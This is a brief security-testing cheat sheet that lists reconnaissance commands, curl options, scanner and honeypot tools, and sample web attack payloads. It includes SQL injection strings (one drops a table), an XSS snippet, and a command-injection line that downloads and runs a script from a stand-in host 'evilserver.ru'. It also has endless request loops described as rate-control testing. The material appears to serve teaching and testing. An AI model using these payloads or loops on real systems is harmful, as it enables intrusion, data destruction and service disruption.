 ### BGP
https://ipinfo.io/AS19905  
https://bgp.he.net/AS19905


### DNS

`dig -t NS`   


### Explore Infrastructure

`whois <domainname>`  
`dig -t NS <domainname>`  
`dig <domainname>`  
`dig www.domainname`  
`whois <IP address>`  
`IPInfo Search for ASN`  


### Web Application Attacks

SQL Injection: `foo‘ or 1=1;-- ` 

SQL Injection: `foo‘; drop table students;--`  

Command Injection:  
`cd /tmp; wget http://evilserver.ru/runme.sh chmod 666 /tmp/runme.sh; bash /tmp/runme.sh; rm /tmp/runme.sh`  

Cross-Site Scripting: `<script>alert(‘xss’);</script>`  


### Curl Commands

Show what’s going on: `-v`  

Ignore TLS errors: `–-insecure`  

Use a different user-agent: `-A “Smith User-Agent”`  

Send a specific header: `-H “Referer: https://www.foo.com/”`  

Don’t show the object: `-o /dev/null`  

Fake DNS resolution: `--resolve www.foo.com:80:192.168.1.1`


### Attack Encoding

https://www.urlencoder.org/  


### Honeypots

T-Pot https://github.com/telekom-security/tpotce  
dnsenum https://github.com/fwaeytens/dnsenum  

### Web Scanning

nikto https://cirt.net/Nikto2  
`nikto -h <target url>`


### Bot Testing

`wget https://www.gnu.org/software/wget/`  
`wget -r <target url>`

### Rate Control Testing

one line: `while true; do curl -v -o /dev/null  http://foosite.rybolov.net/; done`

```
#!/bin/bash
while true;
do
  wget <target url>;  
done
```
